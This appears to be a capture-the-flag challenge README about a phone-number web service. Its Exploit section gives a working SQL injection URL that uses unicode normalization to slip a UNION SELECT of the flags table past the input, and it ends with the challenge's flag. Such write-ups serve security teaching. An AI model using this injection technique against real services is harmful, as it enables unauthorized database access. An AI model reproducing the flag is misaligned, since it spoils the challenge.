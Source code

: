 ## Background

    Author: spipm
    Category: Webservices
    Difficulty: Medium to Hard

## Technical

A web service accepts a phone number and does some operation on it. It shows a green-on-black interface that a bot is dialing some leaderbot.

## Story

Bots are developing this crazy idea of 'phone numbers' so they can directly contact each other without having to waste time on the internet. They're even developing an analog distributed database to increase productivity. Local leader bots will receive regular status updates from nearby bots. Check out the link to see the updates in action.
 
<img src="./dial.jpg" width="500">

## Exploit

One needs to perform blind SQL Injection via unicode normalization via a phone number.

http://localhost:2000/+31613371001;isub=a%CD%B4%20UNION%20SELECT%20flag%20from%20flags--

## Flag

brck{Th15_NumB3r_LoOks_n0RM4l_T0_m3}
